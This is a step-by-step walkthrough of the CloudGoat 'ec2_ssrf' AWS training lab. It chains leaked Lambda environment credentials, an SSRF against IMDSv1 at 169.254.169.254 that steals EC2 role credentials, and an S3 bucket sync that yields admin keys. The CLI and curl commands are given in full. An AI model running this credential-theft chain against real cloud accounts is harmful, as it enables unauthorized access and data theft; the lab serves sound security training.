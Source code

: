 # Scenario 4 - EC2 SSRF

## What is the scenario

The scenario begins with IAM User "Solus" security credentials.

The objective is to invoke the `cg-lambda-<CloudGoat ID>` Lambda function.

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/ec2_ssrf/README.md

## Setting up the scenario

        python3 cloudgoat.py create ec2_ssrf

## Walkthrough

### Exploitation Route

![exploitation-route](imgs/scenario4-2.png)

### Step by step instructions

In this scenario, we have IAM user "Solus" security credentials to being with.

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the IAM user "Solus" security credentials.

![enumerate-permissions](imgs/scenario4-1.png)

We can notice that the security credentials are permitted to do some "Lambda" related operations and it is worth investigating further.

Let's verify if `cg-lambda-<CloudGoat ID>`, the lambda function that we are supposed to invoke exists. 

        aws lambda list-functions \
        --query "Functions[?starts_with(FunctionName, 'cg')]" \
        --profile solus

![lambda-functions](imgs/scenario4-3.png)

The target lambda function exists in the AWS account and we can also notice that there are some hard-coded AWS security credentials in the environment variables of the lambda function. An attempt to invoke the lambda function directly doesn't work because user Solus doesn't have `lambda:InvokeFunction` permission.

Let's use the credentials leaked in the lambda environment variables to enumerate further. Let's add the credentials and figure out what kind of credentials are these - 

        aws configure --profile lambda-stolen

        aws sts get-caller-identity --profile lambda-stolen

![stolen-creds-identity](imgs/scenario4-4.png)

The credentials belong to an IAM user "wrex".

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the IAM user "wrex" security credentials.

![enumerate-permissions](imgs/scenario4-5.png)

The IAM user "wrex" has a lot of permissions around EC2 related operations. Let's investigate further.

Let's check if there are any EC2 instances running. EC2 service is region based so in real-world engagements make sure you look for EC2 resources in all the regions. In this case, we will look in the default region `us-east-1`.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[Tags]' \
        --output text --profile lambda-stolen

![ec2-instance](imgs/scenario4-6.png)

There is an EC2 instance `cg-ubuntu-ec2-<CloudGoat-ID>` in the AWS account.  

Let's check the status of the EC2 instance `cg-ubuntu-ec2-<CloudGoat-ID>`.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[State]' \
        --output text --profile lambda-stolen

The EC2 instance is currently stopped because of a user shutdown.

There are multiple directions in which we can proceed from this point but let's start the instance and check if there are any services running. Security Groups attached to the EC2 instance suggests that there might be web services running on it.

        aws ec2 start-instances \
        --instance-ids i-06f71d7f613c53c93 \
        --profile lambda-stolen

We'll need the public IP address of the EC2 instance to connect to the service. 

        aws ec2 describe-instances \
        --query "Reservations[*].Instances[*].PublicIpAddress" \
        --output text \
        --profile lambda-stolen

![public-ipaddress](imgs/scenario4-9.png)

There is a web application running on port 80 and the server responds with a stack trace. The stack trace suggests that the application is expecting an URL via query parameter.

![stack-trace](imgs/scenario4-10.png)

As the application is expecting a URL as input, let's try and verify if it is vulnerable to SSRF.

![ssrf-verification](imgs/scenario4-11.png)

The application is vulnerable to SSRF and it is on a EC2 instance. Remember that the EC2 instance has a role attached to it. Let's exploit the IMDS v1 using SSRF to steal the IAM role credentials

        curl http://54.145.204.102/\?url\=http://169.254.169.254/latest/meta-data/iam/security-credentials/

        curl -s http://54.145.204.102/\?url\=http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-role-<CloudGoat-ID>

![ssrf-IMDSv1](imgs/scenario4-12.png)

![ssrf-role-creds](imgs/scenario4-13.png)

The IAM role credentials we have stolen can be used like any other IAM identity credentials. To enumerate what can be done using the role credentials, we will create a named profile using AWS CLI but notice that the IAM role credentials are short lived and have a session token. The session token has to be manually added to the profile in the file `~/.aws/credentials`

        aws configure --profile stolen-role-creds

![session-token](imgs/scenario4-16.png)

We'll use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify the role permissions. 

        python enumerate-iam.py --access-key ACCESS-ID --secret-key SECRET-KEY --session-token SESSION-TOKEN

![ssrf-role-creds-permissions](imgs/scenario4-14.png)

Notice that the IAM role has permission to list s3 buckets in the account. Let's use AWS CLI to list the buckets and download any data stored on the s3 buckets.

        aws s3 ls --profile stolen-role-creds
        aws s3 sync s3://cg-secret-s3-bucket-<CloudGoat-ID> ./secrets --profile stolen-role-creds

![list-of-buckets](imgs/scenario4-15.png)

![admin-creds](imgs/scenario4-17.png)

There is an S3 Bucket `cg-secret-s3-bucket-<CloudGoat-ID>` in the AWS account. The file downloaded from the bucket has AWS security credentials and the file name suggests that they could be Administrator credentials.

Let's enumerate the credentials and verify what permissions that the security credentials are entitled to.

1. Create a named profile with the credentials

        aws configure --profile stolen-admin-creds

2. Identify who the credentials belong to

        aws sts get-caller-identity --profile stolen-admin-creds

![admin-creds](imgs/scenario4-18.png)
        
3. Identify the policies attached to the IAM user "shepard"

        aws iam list-attached-user-policies \
        --user-name shepard \
        --profile stolen-admin-creds

![list-attached-policies](imgs/scenario4-19.png) 

4. Identify the permissions of the policy attached to the IAM user "shepard"

        aws iam get-policy-version \                            
        --policy-arn <POLICY-ARN>  \
        --version-id "v1" --profile stolen-admin-creds

![policy-permissions](imgs/scenario4-20.png)

As the IAM user "shepard", we effectively have administrator access to the AWS account. Let's use the credentials to invoke the target lambda function.

        aws lambda invoke \
        --function-name cg-lambda-cgidsw7y5mngnv \
        ./lambda-output.txt \
        --profile stolen-admin-creds

![lambda-invoke](imgs/scenario4-21.png)

## Destroy the scenario resources

        python3 cloudgoat.py destroy ec2_ssrf

## References

- [IAM Roles](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles.html)
- [Instance Metadata and User Data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
- [Retrieving Instance Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
- [Finding SSRF via HTML Injection inside a PDF file on AWS EC2](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90)
- [Instance Metadata API: A Modern Day Trojan Horse](https://redlock.io/blog/instance-metadata-api-a-modern-day-trojan-horse)
- [Trust No One: The Perils of Trusting User Input](https://www.nginx.com/blog/trust-no-one-perils-of-trusting-user-input/)
- [Getting started with Version 2 of AWS EC2 Instance Metadata service (IMDSv2)](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)
